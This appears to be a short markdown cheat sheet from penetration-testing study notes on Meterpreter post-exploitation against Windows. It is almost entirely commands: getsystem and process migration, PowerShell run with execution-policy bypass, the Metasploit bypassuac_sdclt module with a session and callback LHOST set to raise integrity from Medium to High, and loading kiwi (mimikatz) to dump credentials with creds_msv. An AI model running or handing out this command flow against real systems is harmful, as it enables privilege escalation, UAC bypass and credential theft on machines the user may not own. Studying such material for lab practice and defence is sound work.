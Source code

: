 ```yaml
---
tags:
  - tool
  - windows
  - privilege_escalation
  - metasploit
---
```

# Meterpreter

```bash
# Post exploitation command flow
getsystem
ps
migrate 8044
getuid

shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```

[NtObjectManager](https://www.powershellgallery.com/packages/NtObjectManager/1.1.32)

In this example, `Get-NtTokenIntegrityLevel` returns `Medium`, meaning we have to bypass UAC

```bash
^Z
y
bg
search UAC
use exploit/windows/local/bypassuac_sdclt
show options
set SESSION 9
set LHOST 192.168.119.4
run
```

Now we can check our integrity level once again

```bash
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```

Which returns `High` now

We can also load `mimikatz` from `meterpreter`

```bash
load kiwi
help
creds_msv
```
